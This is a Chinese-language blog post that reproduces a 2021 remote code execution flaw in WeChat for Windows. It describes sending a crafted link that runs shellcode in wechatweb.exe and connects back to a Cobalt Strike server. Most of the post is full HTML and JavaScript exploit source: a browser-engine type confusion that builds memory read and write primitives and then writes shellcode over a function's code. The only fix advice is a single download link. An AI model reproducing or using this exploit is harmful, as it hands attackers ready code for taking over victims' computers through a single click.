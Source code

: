 
# 微信 RCE 复现

[↓↓↓](javascript:)  
  
锋刃科技  
  
[↑↑↑](javascript:)

*2021-04-23 12:59*

漏洞概述

攻击者只需要通过微信发送一个特制 web 链接，用户一旦点击链接，微信 PC(windows) 版进程 wechatweb.exe 会加载 shellcode 执行，整个过程无文件落地，无新进程产生，攻击者可以直接获取目标机器权限。

环境搭建

```bash
微信 PC 版本 2.9.0.123
```

  

![图片](assets/1700190815-be2cc6195423d878a11785fd7474dfdd.png)

漏洞复现

生成 payload

![图片](assets/1700190815-9aeca14db308b6e92fb37c5972aa77c2.png)

![图片](assets/1700190815-65259f860672c1aa0f140a897f354c56.png)

将’\\’批量替换成’,0′

再放置 shellcode

![图片](assets/1700190815-62d71206d753f67cdd9104fa13d91caa.png)

![图片](assets/1700190815-15b67da0e64bc242c74d36c723238a11.png)

  

把链接通过微信发送，然后我们点击链接，cs 上线成功。

![图片](assets/1700190815-4cc1fa8628f7c5efb4e9864ff2077607.png)

![图片](assets/1700190815-8516cc1d0c67597f313df25c5b64cba2.png)

源码

```bash
<html>
<head>
<metahttp-equiv="Content-Type"content="text/html;charset=utf-8">
</head>
<h1>test</h1>
<script>
ENABLE_LOG = true;
IN_WORKER = true;
// run calc and hang in a loop
var shellcode = [];//shellcode 替换成自己的 注意是 x86 的

function print(data) {
}
var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});
for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}
var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}
function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}
function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();


    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }
    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }
    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }
    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }
    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}
function trigger() {
    var oob = oobAccess();
    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));
    var kCodeInsOffset = 0x1b;
    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));
    oob.setBytes(code_addr, shellcode);
    target_function(0);
}
try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
</script>
</html>
```

   

修复建议

官方下载链接：

```bash
https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe
```

